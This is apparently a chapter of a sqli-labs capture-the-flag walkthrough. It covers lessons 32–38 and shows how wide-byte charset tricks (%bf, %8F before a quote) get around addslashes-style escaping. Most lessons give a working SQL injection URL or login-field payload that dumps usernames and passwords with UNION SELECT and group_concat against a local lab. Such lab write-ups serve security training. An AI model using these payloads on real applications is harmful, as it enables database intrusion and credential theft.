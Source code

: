 # Chapter-11

This chapter covers the last topic taught in the sqli-labs video series. 

## Bypassing addslashes - charset Mismatch

There are ways by which the developer can prevent an attacker from injecting backslashes by sanitizing the query. 

Here is a ```php``` code snippet that does the same - 

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    
    return $string;
}
```

In such cases adding a ```'``` or ````"``` or ```\``` to the query will be pointless. 

However we can still bypass this check by manipulating the encoding of the text. 

The above code snippet will remove all occurrences of 8-bit acsii characters but it will not be able to do anything with 16 or 32 bit character encoding. 

There we can inject a 16-bit or 32-bit encoded payloads to the query. 

:warning: The maximum value for ascii in hex is ```7F```. Therefore using any value greater than that can break the query. 

## Lesson 32 

In this challenge, all single quotes, double quotes and backslashes are being escaped. 

In order to bypass this, we can inject values greater that ```7F``` in ascii followed by our payload. 

The url for this challenge will look somewhat like this - 

```
http://localhost/sqlilabs/Less-32/?id=-2%8F' union select 1, group_concat(username), group_concat(password)  from users limit 1--+
```

## Lesson 33

This challenge is pretty much the same as the previous challenge. 

The url for this challenge will look somewhat like this - 

```
http://localhost/sqlilabs/Less-33/?id=-1%8F' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 34

Look [here](#) before attempting this challenge.

Here the login page escapes single quotes, double quotes and backslashes. 

We can bypass this by passing the following to the username field - 

```
admin%bf' or 1 #
```

Now in order to get all the usernames and passwords we can inject the following into the input field - 

```
admin%bf' union select group_concat(username), group_concat(password) from users limit 0, 1 #
```

:warning: Solving this challenge in ```Burp suite``` makes it a lot easier.

:boom: If you are get any mysql errors when the above payload is used in the input field in ```Burp```, please have a look at the encoding of the payload.

## Lesson 35 

This one is a bit tricky as we might miss the obvious. 

We can solve this challenge by not breaking the query. This is a simple direct injection. 

The url will look somewhat like this - 

```
http://localhost/sqlilabs/Less-35/?id=-1 union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 36

This one quite simple. This is exactly the same as lesson 32.

The url is as follows - 

```
http://localhost/sqlilabs/Less-36/?id=-4%bf' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 37

This is exactly the same as lesson 34. 

We can exploit the website by passing the following in the input field -

```
admin%bf' union select group_concat(username), group_concat(password) from users limit 0, 1 #
```

:warning: ```Burp``` suite can be used to simplify this challenge.

## Lesson 38

This is a rather simple challenge. 

The url for this challenge is as follows -

```
http://localhost/sqlilabs/Less-38/?id=-1' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

:star2: Yaaaaay! This was the last challenge in the advanced section of ```sqli-labs```. 